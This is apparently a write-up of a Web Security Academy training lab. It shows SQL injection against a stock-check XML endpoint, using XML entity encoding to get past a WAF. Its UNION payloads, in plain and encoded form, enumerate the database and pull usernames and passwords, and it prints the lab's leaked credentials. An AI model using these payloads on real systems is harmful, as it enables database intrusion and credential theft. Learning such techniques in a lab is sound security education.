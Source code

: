 # Lab: SQL injection with filter bypass via XML encoding

URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/

![](./Images/img1.png)

URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/product?productId=4

![](./Images/img2.png)

# Discovering the API:

URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/product/stock

![](./Images/img3.png)

# Preparation and WAF bypass:

![](./Images/img4.png)

<br>

![](./Images/img5.png)

<br>

![](./Images/img6.png)

Sample Payload:

```
&#x34;&#x20;&#x20;&#x6f;&#x72;&#x20;&#x31;&#x3d;&#x31;&#x2d;&#x2d;&#x20;&#x2d;
```

![](./Images/img7.png)


# Exploitation:

## Finding the NULLs:

Payload:

```
1 UNION SELECT NULL-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#45;&#45;&#32;&#45;
```

![](./Images/img8.png)

## Finding the Strings:

Payload:

```
1 UNION SELECT '123'-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&apos;&#49;&#50;&#51;&apos;&#45;&#45;&#32;&#45;
```

![](./Images/img9.png)

## Getting the version:

Payload:

```
1 UNION SELECT VERSION()-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#86;&#69;&#82;&#83;&#73;&#79;&#78;&#40;&#41;&#45;&#45;&#32;&#45;
```

![](./Images/img10.png)

## Getting the USER:

```
69 UNION SELECT current_user-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#117;&#114;&#114;&#101;&#110;&#116;&#95;&#117;&#115;&#101;&#114;&#45;&#45;&#32;&#45;
```

![](./Images/img11.png)

## Getting the DB:

```
69 UNION SELECT current_database()-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#117;&#114;&#114;&#101;&#110;&#116;&#95;&#100;&#97;&#116;&#97;&#98;&#97;&#115;&#101;&#40;&#41;&#45;&#45;&#32;&#45;
```

Res: `academy_labs`

![](./Images/img12.png)

## Get all tables:

Payload:

```
69 UNION SELECT table_name from information_schema.tables-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#32;&#102;&#114;&#111;&#109;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#116;&#97;&#98;&#108;&#101;&#115;&#45;&#45;&#32;&#45;
```

![](./Images/img13.png)

<br>

![](./Images/img14.png)

## Get columns from USERS table:

Payload:

```
69 UNION SELECT column_name from information_schema.columns where table_name='users'-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#111;&#108;&#117;&#109;&#110;&#95;&#110;&#97;&#109;&#101;&#32;&#102;&#114;&#111;&#109;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#99;&#111;&#108;&#117;&#109;&#110;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#61;&apos;&#117;&#115;&#101;&#114;&#115;&apos;&#45;&#45;&#32;&#45;
```

![](./Images/img15.png)

## Globing the username and password:

Payload:

```
69 UNION SELECT username||'-'||password from users-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&apos;&#45;&apos;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#102;&#114;&#111;&#109;&#32;&#117;&#115;&#101;&#114;&#115;&#45;&#45;&#32;&#45;
```

![](./Images/img16.png)

```
carlos-khi6rjmb5qfy167lpkn8
wiener-l33xiqxedg8yjld0rrxt
administrator-nhew0agi0v2im4j6jxho
```

# Automation:

